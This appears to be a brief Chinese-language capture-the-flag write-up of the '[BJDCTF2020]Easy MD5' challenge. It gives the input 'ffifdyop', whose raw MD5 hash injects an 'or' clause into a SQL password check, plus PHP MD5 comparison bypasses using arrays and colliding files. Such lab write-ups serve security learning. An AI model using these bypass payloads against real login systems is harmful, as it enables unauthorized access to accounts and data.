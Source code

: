 > [BJDCTF2020]Easy MD5

在响应头中存在`Hint: select * from 'admin' where password=md5($pass,true)`

如果可以构造出一个md5,使得结果中包含`'or'`的字符串即可达成目的

md5`129581926211651571912466741651878684928`得到`\x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8`

md5`ffifdyop`得到`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`

传入`ffifdyop`即可进入下一关

`($a != $b && md5($a) == md5($b))`,传两个数组,即可进入下一关

`if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2']))`传两个md5相同的文件即可getflag